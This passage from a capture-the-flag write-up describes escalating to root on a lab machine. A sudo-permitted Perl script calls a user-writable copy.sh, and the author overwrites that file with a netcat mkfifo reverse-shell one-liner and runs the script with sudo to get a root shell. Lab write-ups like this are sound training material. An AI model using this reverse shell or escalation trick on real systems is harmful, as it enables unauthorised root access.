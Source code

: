 Let navigate there and we find our user.txt flag!

<img width="761" alt="Screen Shot 2025-06-01 at 2 57 39 PM" src="https://github.com/user-attachments/assets/19749d22-4287-4451-8790-3e0d531a5a3c" />

# Privilege Escalation

Now we have to escalate our privileges to root to find the root.txt flag!

Lets go ahead and run 

      sudo -l
      
to see if we can performa and sudo commands.

<img width="991" alt="Screen Shot 2025-06-01 at 2 58 12 PM" src="https://github.com/user-attachments/assets/5d4d5e59-6cc4-474b-8396-984bd820b6fd" />

As you can see we are able to run /usr/bin/perl /home/itguy/backup.pl

Lets open up backup.pl and see what it does.

<img width="545" alt="Screen Shot 2025-06-01 at 2 58 38 PM" src="https://github.com/user-attachments/assets/0cf442b6-7043-4627-b4da-1aaacf323cde" />

backup.pl call another file called copy.sh which is writeable by our user and lets see what it does.

After reading the contents of the copy.sh it looks like it run another shell.

<img width="871" alt="Screen Shot 2025-06-01 at 2 58 55 PM" src="https://github.com/user-attachments/assets/f0102352-8544-4718-881a-8290355e5a6b" />

Now we just need to change the IP to our machine IP and set up another listener and we should get a shell to root.

So here there was no nano, vim , vi or any text editor so we can do an echo!

      echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <MACHINE_IP> <PORT> > /tmp/f" > /etc/copy.sh 

And now we setup our listener and execute backup.pl

<img width="1355" alt="Screen Shot 2025-06-01 at 3 00 59 PM" src="https://github.com/user-attachments/assets/2b1a8a7c-e8a9-421a-957c-3a9b5ecb0a5c" />

      sudo /usr/bin/perl /home/itguy/backup.pl


<img width="373" alt="Screen Shot 2025-06-01 at 3 04 02 PM" src="https://github.com/user-attachments/assets/6c764e1f-13fe-4f11-89b5-cb1f68c2396f" />

We got the shell!

Now we can cd to root!

And get our root.txt flag!

<img width="575" alt="Screen Shot 2025-06-01 at 3 02 05 PM" src="https://github.com/user-attachments/assets/525a9fa5-b516-4bf8-8ff7-21d7a61d6e91" />
